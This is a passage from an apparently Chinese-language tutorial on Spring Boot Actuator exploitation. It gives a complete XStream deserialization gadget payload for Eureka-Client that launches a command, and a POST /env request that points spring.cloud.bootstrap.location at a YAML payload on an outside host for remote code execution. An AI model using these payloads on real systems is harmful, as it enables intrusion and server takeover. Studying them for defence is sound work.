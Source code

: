 此属性将Eureka serviceURL修改为任意值。Eureka Server通常用作发现服务器，目标类路径中具有Eureka-Client <1.8.7，则可以利用其中的**XStream反序列化漏洞**。

其中xstream的内容类似如下：

```


1.  `<linked-hash-set>`
2.   `<jdk.nashorn.internal.objects.NativeString>`
3.   `<value  class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">`
4.   `<dataHandler>`
5.   `<dataSource  class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">`
6.   `<is  class="javax.crypto.CipherInputStream">`
7.   `<cipher  class="javax.crypto.NullCipher">`
8.   `<serviceIterator  class="javax.imageio.spi.FilterIterator">`
9.   `<iter  class="javax.imageio.spi.FilterIterator">`
10.   `<iter  class="java.util.Collections$EmptyIterator"/>`
11.   `<next  class="java.lang.ProcessBuilder">`
12.   `<command>`
13.   `<string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>`
14.   `</command>`
15.   `<redirectErrorStream>false</redirectErrorStream>`
16.   `</next>`
17.   `</iter>`
18.   `<filter  class="javax.imageio.ImageIO$ContainsFilter">`
19.   `<method>`
20.   `<class>java.lang.ProcessBuilder</class>`
21.   `<name>start</name>`
22.   `<parameter-types/>`
23.   `</method>`
24.   `<name>foo</name>`
25.   `</filter>`
26.   `<next  class="string">foo</next>`
27.   `</serviceIterator>`
28.   `<lock/>`
29.   `</cipher>`
30.   `<input  class="java.lang.ProcessBuilder$NullInputStream"/>`
31.   `<ibuffer></ibuffer>`
32.   `</is>`
33.   `</dataSource>`
34.   `</dataHandler>`
35.   `</value>`
36.   `</jdk.nashorn.internal.objects.NativeString>`
37.  `</linked-hash-set>`


```

然后调用’/ refresh’端点。

4.  有一种通过Spring环境属性修改来实现RCE的更可靠方法：

```


1.  `POST /env HTTP/1.1`
2.  `Host: 127.0.0.1:8090`
3.  `Content-Type: application/x-www-form-urlencoded`
4.  `Content-Length: 59`

6.  `spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml`


```
